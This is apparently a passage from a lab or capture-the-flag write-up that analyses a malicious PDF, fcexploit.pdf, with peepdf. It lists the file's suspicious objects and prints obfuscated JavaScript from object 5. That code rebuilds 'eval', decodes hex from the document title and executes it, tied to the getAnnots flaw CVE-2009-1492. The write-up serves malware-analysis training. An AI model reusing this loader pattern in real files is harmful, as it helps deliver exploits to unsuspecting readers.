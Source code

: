```
> peepdf -i -f fcexploit.pdf  

File: fcexploit.pdf  
MD5: 659cf4c6baa87b082227540047538c2a  
SHA1: a93bf00077e761152d4ff8a695c423d14c9a66c9  
SHA256: ba3c7c763f7910ef956e27be054e9271b00d05aab9fb153cdf30001ce422d68a  
Size: 25169 bytes  
Version: 1.3  
Binary: True  
Linearized: False  
Encrypted: False  
Updates: 0  
Objects: 18  
Streams: 5  
URIs: 0  
Comments: 0  
Errors: 2  
  
Version 0:  
       Catalog: 27  
       Info: 11  
       Objects (18): [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 22, 23, 24, 25, 26, 27, 28]  
               Errors (1): [11]  
       Streams (5): [5, 7, 9, 10, 11]  
               Encoded (4): [5, 7, 9, 10]  
       Objects with JS code (1): [5]  
       Suspicious elements:  
               /AcroForm (1): [27]  
               /OpenAction (1): [1]  
               /XFA (1): [28]  
               /JS (1): [4]  
               /JavaScript (1): [4]  
               getAnnots (CVE-2009-1492) (1): [5]  
  
  
  
PPDF> object 4  
  
<< /Type /Action  
/S /JavaScript  
/JS 5 0 R >>  
  
PPDF> object 5  
  
<< /Length 395  
/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ] >>  
stream  
  
var SSS=null;var SS="ev";var $S="";$5="in";app.doc.syncAnnotScan();S$="ti";if(app.plugIns.length!=0){var $$=0;S$+="tl";$5+="fo";____SSS=app.doc.getAnnots({nPage:0});S$+="e  
";$S=this.info.title;}var S5="";if(app.plugIns.length>3){SS+="a";var arr=$S.split(/U_155bf62c9aU_7917ab39/);for(var $=1;$<arr.length;$++){S5+=String.fromCharCode("0x"+arr[  
$]);}SS+="l";}if(app.plugIns.length>=2){app[SS](S5);}  
  
endstream
```
## 8. Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order
From peepdf we find object 5, 7, 9, 10, 11 has stream of content.
